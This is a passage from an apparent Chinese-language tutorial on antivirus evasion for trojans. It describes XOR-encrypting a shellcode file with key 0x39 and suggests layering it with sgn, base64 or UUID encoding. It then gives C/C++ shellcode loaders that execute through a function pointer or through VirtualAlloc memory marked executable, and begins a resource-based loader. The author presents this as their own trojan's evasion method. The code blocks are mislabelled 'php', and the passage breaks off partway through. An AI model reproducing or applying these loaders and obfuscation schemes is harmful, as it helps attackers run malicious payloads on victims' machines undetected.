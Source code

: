 最后保存即可，此时的 bin 文件是经过了 XOR 加密 ,**密钥为 0x39**

**同时推荐几种加密方式：**

**1.xor 双加密**

**2.xor 加密 + sgn 编码**

**3.xor 加密 +base64 编码**

**4.uuid+base64 编码**

**各位可以自行搭配**

### 2.shellcode 的加载方式

shellcode 的加载方式有很多种，这里以 C/C++ 作为示范

#### 1、指针执行

```php
#include <Windows.h>
#include <stdio.h>

unsigned char shellcodeloader[] ="shellcode";

int main()
{
    ((void(*)(void)) & shellcodeloader)();
}
```

#### 2.申请内存执行

```php
#include <Windows.h>
#include <stdio.h>

int main()
{
    char shellcode[] = "shellcode";
    void* run = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    //使用 VirtualAlloc 申请一块可读可写可执行的内存 (PAGE_EXECUTE_READWRITE)
    memcpy(run, shellcode, sizeof shellcode);
    //使用 memcopy 将 shellcode 拷贝到刚刚申请的内存中
    ((void(*)())run)();
}
```

#### 3.资源加载 shellcode

这也是我木马免杀的执行方式

先补充一些前置知识需要学习 3 个函数

**1、FindResource：该函数确定指定模块中指定类型和名称的资源所在位置。**

```php
HRSRC FindResource(
  [in, optional] HMODULE hModule,
  [in]           LPCSTR  lpName,
  [in]           LPCSTR  lpType
);
```
